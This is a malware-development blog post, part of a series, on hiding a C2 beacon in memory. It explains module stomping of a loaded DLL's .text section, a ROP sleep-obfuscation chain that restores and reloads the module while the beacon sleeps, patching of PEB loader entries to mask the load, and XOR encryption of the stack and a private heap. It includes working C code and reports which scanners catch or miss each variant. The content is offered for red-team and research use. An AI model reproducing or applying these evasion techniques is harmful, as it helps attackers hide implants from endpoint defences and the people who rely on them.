



As mentioned in the previous blog post [Evading detection in memory - Pt 1: Sleep Obfuscation - Foliage](https://oblivion-malware.xyz/posts/sleep-obf-foliage/), 
memory detections focus on private ``RX`` memory regions and the thread's call stack.

The **Module Stomping** technique involves overwriting the ``RX`` (read-execute) memory region of a DLL loaded in memory with shellcode, 
with the goal of evading detection based on private memory analysis. This method also avoids concerns about the *``call stack``*, as the shellcode is executed from a memory region that is supported. However, a challenge with this process is that, when using sRDI (shellcode Reflection DLL Injection) C2 beacons, the memory content will be reflected into a new region, causing an overwrite of a legitimate DLL area. This results in visible modifications, which can be easily detected, generating IOCs (Indicators of Compromise).

The solution to this problem involves using a **reflective loader** in conjunction with the Implant, 
in my case, I'll use a shellcode that doesn't reflect. However, even with this approach, the overwritten memory area can still be perceptible. To enhance this technique and reduce the likelihood of detection, we propose the following process:

1. **Allocate Mapped RW Memory**: First, we allocate two *Mapped RW* memory regions, called **Memory Mapped A** and **Memory Mapped B**.
2. **Backup the DLL**: We back up the DLL that will be overwritten by storing it in **Memory Mapped A**, for later preserve the integrity of the original DLL.
3. **Write the Encrypted Beacon**: The encrypted beacon (shellcode) is then written into **Memory Mapped B**, a secure memory area for the payload.
4. **Stomp the text section with shellcode Implant**: We will parse and overwrite the text section of the module.
4. **Restore During "Sleep"**: During the process's "sleep" time (inactivity), the overwritten DLL is restored to its original position in memory from the backup in **Memory Mapped A**. This step ensures that while the beacon is inactive, the memory will appear legitimate, containing the original DLL data.
5. **Prepare for Execution**: When it's time to execute the beacon, the memory is overwritten again, and the beacon is loaded back into **Memory Mapped B**, replacing the restored DLL.

In this way, the DLL's memory will appear legitimate during the beacon's inactivity period, with a very brief window of visibility only during the beacon's execution. This minimizes the chances of detection, as the memory changes occur only during the active execution phase and are quickly reverted once the beacon has finished executing.

# Injection: Stomping
We will have a structure to store values to pass to our agent, containing information about the MAPPED memory for agent backup and the backup of the Stomped Module.

```c
typedef struct _STOMP_ARGS {
    PVOID  AgntBackup;
    PVOID  ModBackup;
} STOMP_AGRS, *PSTOMP_ARGS;
```

(In the injection code responsible for loading the DLL, we will start with a simple POC, loading the DLL "**chakra.dll**", ...) In the injection code, we will start with a simple POC by loading a DLL called chakra.dll, first, we will load it using the API [LoadLibraryEx](https://learn.microsoft.com/pt-br/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibraryexa) passing **DONT_RESOLVE_DLL_REFERENCES**

```c
    MmBase = Instance.Win32.LoadLibraryExA( "chakra.dll", NULL, DONT_RESOLVE_DLL_REFERENCES );
```

This way, the [DllMain entrypoint](https://learn.microsoft.com/en-us/windows/win32/dlls/dllmain) of the DLL is not called, and it also does not resolve the IAT, as otherwise the loaded DLL could load other DLLs and start other threads, which we do not want while performing Module Stomping. The standard use of [LoadLibraryEx](https://learn.microsoft.com/pt-br/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibraryexa) is problematic for several reasons that we will discuss later.

We will parse the DLL header to find its .text section.

```c
    SecHdr = IMAGE_FIRST_SECTION( Header );
    for ( ULONG i = 0; i < Header->FileHeader.NumberOfSections; i++ ) {
        if ( strcmp( C_PTR( SecHdr[ i ].Name ), ".text" ) ) {        
            break;
        }
    }

    MmBase = (UINT64)(MmBase) + SecHdr->VirtualAddress;
```

Now, we will create backups of the Agent and the Module using MAPPED memory.

```c
    hFile = Instance.Win32.CreateFileMappingA( 
        INVALID_HANDLE_VALUE, NULL, PAGE_READWRITE, 
        NULL, StompArgs.Length, NULL 
    );

    StompArgs.Backup = Instance.Win32.MapViewOfFile( 
        hFile, FILE_MAP_WRITE | FILE_MAP_READ, 
        NULL, NULL, StompArgs.Length 
    );

    StompArgs.Backup2 = Instance.Win32.MapViewOfFile( 
        hFile, FILE_MAP_WRITE | FILE_MAP_READ, 
        NULL, NULL, StompArgs.Length 
    );
```

After changing the protection to RW, we will populate the agent backup and write our shellcode to the .text section, then revert to the previous protection, and finally call ShellcodeMain, passing the structure as an argument.

```c
    Instance.Win32.VirtualProtect( MmBase, SecHdr->SizeOfRawData, PAGE_READWRITE, &Protect );
    
    MmCopy( StompArgs.AgntBackup, ShellcodeBuffer, ShellcodeSize );
    MmCopy( StompArgs.ModBackup, MmBase, ShellcodeSize );
    MmCopy( MmBase, ShellcodeBuffer, ShellcodeSize );

    MmZero( ShellcodeBuffer, ShellcodeSize ); // this depends on the shellcode location

    bCheck = Instance.Win32.VirtualProtect( MmBase, SecHdr->SizeOfRawData, Protect, &Protect );
    if ( !bCheck ) return;
    
    Instance.Win32.BlackoutMain( &StompArgs );
```

# Agent: SleepObf + Stomping

We will start the sleep obfuscation chain by changing the RX area's address to RW, then writing with the module's backup, reverting to RX, and then sleeping:

```c
    RopProtRw.Rip = Instance()->Win32.VirtualProtect;
    RopProtRw.Rcx = Instance()->Base.RxBase;
    RopProtRw.Rdx = Instance()->Base.RxBase;
    RopProtRw.R8  = PAGE_READWRITE;
    RopProtRw.R9  = &OldProt;

    RopModBcp.Rip = Instance()->Win32.WriteProcessMemory;
    RopModBcp.Rcx = NtCurrentProcess(); 
    RopModBcp.Rdx = Instance()->Base.Buffer;
    RopModBcp.R8  = Instance()->StompArgs->ModBackup;
    RopModBcp.R9  = Instance()->Base.FullLen;

    RopProtRx.Rip = Instance()->Win32.VirtualProtect;
    RopProtRx.Rcx = Instance()->Base.Buffer;
    RopProtRx.Rdx = Instance()->Base.FullLen;
    RopProtRx.R8  = PAGE_EXECUTE_READ;
    RopProtRx.R9  = &OldProt;

    RopDelay.Rip = Instance()->Win32.WaitForSingleObjectEx;
    RopDelay.Rcx = NtCurrentProcess();
    RopDelay.Rdx = SleepTime;
    RopDelay.R8  = FALSE;
```

Now let's observe that the ``call stack`` appears legitimate.



Perspective from [pe-sieve](https://github.com/hasherezade/pe-sieve)



Note: The interesting part is that if we don't revert the module's memory back to RX and leave it as RW, Moneta doesn't detect it. However, this isn't a recommended approach.

Perspective from [moneta](https://github.com/forrest-orr/moneta) about not reverting memory to RX:


Perspective from [moneta] about reverting memory to RX:


We might still encounter issues with **Shareable Working Set** and **SharedOriginal**. I was alerted to this after reading a blog post by Nigerald, which can be found in the last section of this blog post under "**Reference and credits**". He explains them as follows:

- ``Shared Working Set`` is the number of bytes of memory that this particular page is using and is shared. To avoid wasting memory, some of it is shared. For example, `ntdll` is loaded into all processes and uses the same physical memory. If this shared memory is written to, the process gets a private copy of the memory page, using additional physical memory.
- ``SharedOriginal`` is a flag of a memory page that indicates whether this page is the original mapping. This flag is set to 0 when the page is written to, meaning it would be a copy of the original page, but modified.

Moneta flagged this due to these flags, so I developed a POC (Proof of Concept) to circumvent this. The idea is as follows:

1. **Allocate Mapped RW Memory**: First, we allocate just one *Mapped RW* memory region for implant backup.
2. Write to memory to create a backup of the implant content.
3. During Sleep Obfuscation, we unload the loaded module and load a fresh instance of the same module without the corrupted image pages.
4. Upon waking, restore the implant to the `.text` section and resume execution.

In this POC, I won’t go into detail about the injector as I believe it's clear how to adapt it. Moving directly to the implant, we will proceed with:

```c
    RopFreeLb.Rip = Instance()->Win32.LdrUnloadDll;
    RopFreeLb.Rcx = hLibraryFr;

    RopLoadLb.Rip = Instance()->Win32.LoadLibraryExA;
    RopLoadLb.Rcx = LibraryFr;
    RopLoadLb.Rdx = NULL;
    RopLoadLb.R8  = DONT_RESOLVE_DLL_REFERENCES;
```
These are the first two fragments of the chain, but we still have the issue with `LoadLibraryEx`, which is a bit worse in this implementation. Now it's time to fix this and explain more about its problems.

When a module is loaded with the `xxx` flag within the `LDR_DATA_TABLE_ENTRY` located inside the LDR, some of its values are abnormal, as can be seen below:



This image was taken from the blog post by BRC4 Release: Nightmare, which can be found in the "References and Credits" section. According to him, the values represent the following:

- ``EntryPoint``: The entry point for the module’s execution, where the `DllMain` address would be located.
- ``ImageDLL``: This means the DLL was loaded as an EXE rather than as a DLL.
- ``LoadNotificationsSent``: This indicates that the loading notification for the DLL was not sent.
- ``ProcessStaticImport``: This means the DLL’s imports were not processed.

I will create a simple piece of code to compare a DLL loaded with [LoadLibraryA](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya) and compare it with a DLL loaded using [LoadLibraryExA](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibraryexa) with the `DONT_RESOLVE_DLL_REFERENCES` flag. The result is shown below:


Note: When I examined other modules, and even the DLL loaded "normally," the ``ProcessStaticImport`` member was marked as `false`, so I kept it as `false` in this case.

To fix this in the PEB, we have the following code:

```c
    PLDR_DATA_TABLE_ENTRY Data   = { 0 };
    PLIST_ENTRY           Head   = &Instance()->Teb->ProcessEnvironmentBlock->Ldr->InLoadOrderModuleList;
    PLIST_ENTRY           Entry  = Head->Flink;
    PIMAGE_NT_HEADERS     NtHdrs = { 0 };
    UINT64                Ep     = 0;
    HMODULE               Module = NULL;

    for ( ; Head != Entry ; Entry = Entry->Flink ) {
        Data = C_PTR( Entry );

        if ( strcmp( Data->BaseDllName.Buffer, ModuleName ) == 0 ) {
            Module = Data->DllBase;
            break;
        }
     }

    NtHdrs = ( (PBYTE)( Module )  +  ( (PIMAGE_DOS_HEADER)( Module ) )->e_lfanew );
    Ep     = Module + NtHdrs->OptionalHeader.AddressOfEntryPoint;
    
    Data->EntryPoint = Ep;
    Data->Flags      = 0x8a2cc;
    Data->ImageDll   = 1;
    Data->LoadNotificationsSent = 1;
    Data->ProcessStaticImport   = 0;
```

We retrieve the module's address, then parse it to obtain the `AddressOfEntryPoint` and pass it to `PLDR_DATA_TABLE_ENTRY->EntryPoint`. The other values will be set according to the screenshot above.

# Heap/Stack Encryption

An important step in sleep obfuscation is to encrypt both the stack and the heap. Many pieces of information such as variables, function return addresses, etc., are stored in these areas at runtime.

## Stack

To obfuscate the stack, we need its base address and size. For this, we can use the `TEB->NT_TIB.StackBase` and `TEB->NT_TIB.StackLimit` values. Once we have the base address and size, we can pass them to an encryption/obfuscation function.

```c
    PTEB Teb = NtCurrentTeb();
    PVOID  StackBase  = Teb->NtTib.StackBase;
    PVOID  StackLimit = Teb->NtTib.StackLimit;
    UINT64 StackSize  = (U_PTR)( StackLimit - StackBase );

    XorEncrypt( StackBase, StackSize, Key, sizeof( Key ) );
```

## Heap

When dealing with the heap, we need to be cautious. If we use the return value from [GetProcessHeap](https://learn.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-getprocessheap) or `PEB->ProcessHeap`, we will be using the ``main`` heap of the process. It's certain that other threads may also be using the same heap, and if we obfuscate it, the threads will likely freeze, causing the process to crash. Another approach would be to enumerate all threads and suspend them, but I don't like this idea, and I'm sure you understand why.

To solve this problem, we will create our own heap using [RtlCreateHeap](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlcreateheap).

```c
    PVOID Heap = RtlCreateHeap( NULL, NULL, 0, 0, 0, NULL );
```
This way, we will have our own heap, and when we use functions like [HeapAlloc](https://learn.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-heapalloc) and others, we will pass our custom heap.

Now, we need to enumerate the blocks and get their size. We can use [HeapWalk](https://learn.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-heapwalk), which returns a structure of [PROCESS_HEAP_ENTRY](https://learn.microsoft.com/en-us/windows/win32/api/minwinbase/ns-minwinbase-process_heap_entry). The important members are `lpData`, which is the base address of the block, and `cbData`, which is the size of the heap block.

# Reference and credits
- [BRC4 release: Nightmare](https://bruteratel.com/release/2023/03/19/Release-Nightmare/)
- [Aceldr - UDRL](https://github.com/kyleavery/AceLdr)
- [Nigerald blog](https://dtsec.us/2023-11-04-ModuleStompin/)
- [Module Shifting](https://naksyn.com/edr%20evasion/2023/06/01/improving-the-stealthiness-of-memory-injections.html)
- [Maldev Academy](https://maldevacademy.com/)

